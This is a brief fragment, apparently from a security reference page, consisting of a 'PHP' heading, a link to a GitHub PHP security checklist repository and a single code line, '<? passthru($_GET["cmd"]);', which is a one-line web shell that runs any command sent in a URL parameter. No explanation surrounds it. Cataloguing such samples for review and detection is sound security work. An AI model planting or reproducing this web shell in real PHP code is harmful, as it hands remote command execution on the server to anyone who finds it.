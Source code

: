 # PHP

[https://github.com/ismailtasdelen/php-security-check-list](https://github.com/ismailtasdelen/php-security-check-list)

```
<? passthru($_GET["cmd"]);
```



